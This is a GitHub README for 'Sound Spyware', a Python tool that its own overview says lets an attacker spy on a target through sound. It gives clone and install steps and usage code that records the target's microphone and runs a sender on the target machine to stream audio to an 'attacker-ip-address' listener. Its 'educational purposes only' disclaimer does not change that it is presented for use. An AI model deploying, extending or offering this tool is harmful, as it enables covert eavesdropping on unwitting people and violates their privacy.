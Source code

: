# Sound Spyware

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker spy on a target through the sound

## Features

- You can record sound of target
- It streams the target's sound to the attacker

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/sound-spyware.git && cd sound-spyware
```

```shell
pip install requirements.txt
```

## Usage

Instantiating the class

```python
attacker, target = "attacker-name", "target-name"
soundSpy = SoundIntel(attacker, target)
```

To record the sound of the target's system

```python
secs = 50
audioFile = soundSpy.soundRecord(secs)
```

To stream the sound from the target to the attacker
On target's system

```python
host = "attacker-ip-address"
stream = soundSpy.sender(host)
```

On attacker's system

```python
host = "attacker-ip-address"
stream = soundSpy.receiver(host)
```

## Run

```shell
python sound.py
```

To use the streaming function, first run the software on attacker's system before running on the target's system
